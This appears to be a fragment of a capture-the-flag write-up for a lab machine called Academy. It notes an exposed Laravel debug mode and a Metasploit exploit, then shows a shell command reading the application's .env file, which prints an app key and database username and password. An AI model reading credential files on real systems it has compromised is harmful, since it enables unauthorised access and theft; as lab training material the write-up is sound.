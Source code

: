 ![alt text](Writeup/Academy/subdomain.png)

This is `Laravel's debug mode`. There is an `msf exploit`.

# Metasploit

![alt text](Writeup/Academy/msf.png)

# Find Credentials

```bash
$ cat /var/www/html/academy/.env
cat /var/www/html/academy/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
